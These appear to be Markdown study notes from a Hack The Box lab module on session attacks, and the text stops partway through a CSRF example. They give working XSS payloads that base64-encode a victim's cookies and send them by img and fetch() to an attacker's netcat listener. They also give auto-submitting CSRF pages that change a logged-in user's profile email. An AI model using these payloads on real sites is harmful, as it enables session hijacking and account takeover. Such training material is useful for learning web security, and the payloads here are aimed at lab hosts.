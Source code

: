 ## Obtaining session cookies via XSS (Netcat edition)
```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

```shell-session
alakin2504@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

# Cross-Site Request Forgery (CSRF or XSRF)

First, create and serve the below HTML page. Save it as `notmalicious.html`
```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
If you are wondering how we ended up with the above form, please see the image below. ![image](https://academy.hackthebox.com/storage/modules/153/29.png)

We can serve the page above from our attacking machine as follows.

```shell-session
alakin2504@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

No need for a proxy at this time, so don't make your browser go through Burp Suite. Restore the browser's original proxy settings.

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving.

# Cross-Site Request Forgery (GET-based)
First, create and serve the below HTML page. Save it as `notmalicious_get.html`
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
```